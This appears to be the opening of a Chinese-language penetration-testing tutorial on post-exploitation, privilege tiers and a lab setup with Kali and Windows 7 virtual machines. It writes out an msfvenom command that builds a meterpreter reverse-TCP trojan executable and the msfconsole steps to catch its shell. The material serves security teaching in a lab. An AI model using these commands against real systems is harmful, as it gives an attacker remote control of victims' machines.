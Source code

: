 # 后渗透之信息收集和提权
> 当我们拿到一台主机的shell之后，我们想打内网或者想找到有用的信息，或者得到主机管理员权限。

> 后渗透的本质是权限把控

- 权限分类：
  1. 后台权限
  2. webshell权限
  3. 服务器权限（普通权限、管理员权限）
  4. 域控权限
- 通过前端渗透可获得1或2权限，后渗透可通过1或2权限进而获得3或4权限。

## 0x01环境搭建

**首先需要模拟一套已经完成渗透的环境出来**

1. 准备两台虚拟机：一台Kali，IP为192.168.11.128；一台Win7 x64，IP为192.168.11.133

2. 在Kali上生成木马（反向连接），并进行监听

3. 在Win7上运行木马

4. 操控靶机

   ```
   // 生成木马
   # msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.11.128 LPORT=4444 -f exe > msf.exe
   ```

   ![环境搭建](./后渗透/环境搭建_1.png)

   ```
   // 开启监听
   # msfconsole
   # msf6 > use exploit/multi/handler
   # msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
   # msf6 exploit(multi/handler) > set lhost 192.168.11.128
   # msf6 exploit(multi/handler) > exploit
   ```

   ![环境搭建](./后渗透/环境搭建_2.png)
